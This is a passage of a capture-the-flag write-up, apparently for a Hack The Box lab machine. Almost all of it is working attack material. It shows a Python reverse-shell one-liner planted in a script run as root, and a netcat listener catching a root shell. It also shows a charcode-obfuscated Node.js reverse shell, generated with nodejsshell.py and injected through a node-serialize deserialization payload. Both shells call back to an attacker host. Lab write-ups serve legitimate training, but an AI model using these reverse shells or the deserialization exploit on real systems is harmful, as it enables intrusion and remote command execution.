import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9004));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

`script.py`

```python
print "Script is running..."
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9004));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```sh
root@kali:~/celestail# nc -lnvp 9004
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9004
Ncat: Listening on 0.0.0.0:9004
Ncat: Connection from 10.10.10.85.
Ncat: Connection from 10.10.10.85:38086.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat root.txt
ba1d0019200a54e370ca151007a8095a
#
```

###### Using nodejsshell

- [`nodejsshell.py`](https://github.com/infodox/exploits/blob/master/nodejsshell.py)

```sh
root@kali:~/celestail/nodejs-serialize# wget https://raw.githubusercontent.com/infodox/exploits/master/nodejsshell.py
--2018-09-01 15:44:13--  https://raw.githubusercontent.com/infodox/exploits/master/nodejsshell.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.200.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.200.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1343 (1.3K) [text/plain]
Saving to: ‘nodejsshell.py’

nodejsshell.py                                     100%[================================================================================================================>]   1.31K  --.-KB/s    in 0s

2018-09-01 15:44:13 (26.7 MB/s) - ‘nodejsshell.py’ saved [1343/1343]

root@kali:~/celestail/nodejs-serialize#
```

```sh
root@kali:~/celestail/nodejs-serialize# python nodejsshell.py 10.10.14.5 9005
[+] LHOST = 10.10.14.5
[+] LPORT = 9005
[+] Encoding
eval(String.fromCharCode(118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,44,117,116,105,108,32,61,32,114,101,113,117,105,114,101,40,39,117,116,105,108,39,41,44,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,44,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,53,34,59,80,79,82,84,61,34,57,48,48,53,34,59,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,34,41,59,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,32,32,32,32,32,32,32,32,117,116,105,108,46,112,117,109,112,40,115,104,46,115,116,100,111,117,116,44,99,108,105,101,110,116,41,59,32,32,32,32,125,41,59,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,32,32,32,32,125,41,59,125,32,99,40,72,79,83,84,44,80,79,82,84,41,59))
root@kali:~/celestail/nodejs-serialize#
```

`payload.js`

```js
var y = {
 "username": "ABC",
 "country": "DEF",
 "city": "ZYX",
 "num": "543",
 "rce" : function(){ eval(String.fromCharCode(118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,44,117,116,105,108,32,61,32,114,101,113,117,105,114,101,40,39,117,116,105,108,39,41,44,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,44,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,53,34,59,80,79,82,84,61,34,57,48,48,53,34,59,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,34,41,59,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,32,32,32,32,32,32,32,32,117,116,105,108,46,112,117,109,112,40,115,104,46,115,116,100,111,117,116,44,99,108,105,101,110,116,41,59,32,32,32,32,125,41,59,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,32,32,32,32,125,41,59,125,32,99,40,72,79,83,84,44,80,79,82,84,41,59))},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

```sh
root@kali:~/celestail/nodejs-serialize# node payload.js
Serialized:
{"username":"ABC","country":"DEF","city":"ZYX","num":"543","rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,44,117,116,105,108,32,61,32,114,101,113,117,105,114,101,40,39,117,116,105,108,39,41,44,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,44,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,53,34,59,80,79,82,84,61,34,57,48,48,53,34,59,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,34,41,59,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,32,32,32,32,32,32,32,32,117,116,105,108,46,112,117,109,112,40,115,104,46,115,116,100,111,117,116,44,99,108,105,101,110,116,41,59,32,32,32,32,125,41,59,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,32,32,32,32,125,41,59,125,32,99,40,72,79,83,84,44,80,79,82,84,41,59))}"}
root@kali:~/celestail/nodejs-serialize#
```

```
{"username":"ABC","country":"DEF","city":"ZYX","num":"543","rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,44,117,116,105,108,32,61,32,114,101,113,117,105,114,101,40,39,117,116,105,108,39,41,44,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,44,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,53,34,59,80,79,82,84,61,34,57,48,48,53,34,59,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,34,41,59,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,32,32,32,32,32,32,32,32,117,116,105,108,46,112,117,109,112,40,115,104,46,115,116,100,111,117,116,44,99,108,105,101,110,116,41,59,32,32,32,32,125,41,59,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,32,32,32,32,125,41,59,125,32,99,40,72,79,83,84,44,80,79,82,84,41,59))}()"}
```





```sh
root@kali:~/celestail/nodejs-serialize# nc -nlvp 9005
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9005
Ncat: Listening on 0.0.0.0:9005
Ncat: Connection from 10.10.10.85.
Ncat: Connection from 10.10.10.85:41842.
Connected
id
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```